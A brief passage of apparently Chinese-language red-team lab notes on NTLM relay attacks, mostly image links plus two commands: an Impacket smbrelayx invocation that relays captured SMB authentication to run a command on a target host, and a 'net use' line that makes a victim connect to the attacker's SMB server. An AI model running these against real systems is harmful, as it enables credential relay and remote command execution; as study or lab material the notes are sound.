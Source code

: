 ![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/6.png)

---

### Impacket smbrelayx

```
impacket-smbrelayx -h <被攻击ip> -c whoami
```

![](../../../../../assets/img/Security/RedTeam/OS安全/实验/NTLM中继/8.png)

让任意主机访问这个攻击者精心构造好的 SMB 服务器：
```
net use \\<kali IP>
```
